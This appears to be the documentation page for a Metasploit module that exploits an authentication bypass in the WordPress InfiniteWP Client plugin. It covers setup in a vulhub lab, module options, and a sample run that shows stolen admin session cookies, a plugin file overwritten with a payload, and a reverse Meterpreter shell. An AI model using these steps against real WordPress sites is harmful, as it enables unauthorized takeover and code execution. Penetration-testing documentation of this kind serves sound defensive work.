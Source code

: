 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

### Setup

Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
and follow <https://wordpress.org/plugins/iwp-client/#installation>.

### Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Verification Steps

1. `git clone https://github.com/vulhub/vulhub`
2. `cd vulhub/wordpress/pwnscriptum`
3. `docker-compose up -d`
4. Follow [Setup](#setup)

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4

```
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Found version 1.9.4.4 in the custom file
[*] Bypassing auth for admin at http://127.0.0.1:8080/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C44ecac44335ad633ea98045a7085c4947fee015b700b8b7d9463dd44d2388bb2; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C240d956e7a43f2ed3193171df429c8a8fb9ba3bac2f9805cdf88789f90a186df;
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58534) at 2020-01-18 14:50:39 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 4e8791809581
OS          : Linux 4e8791809581 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
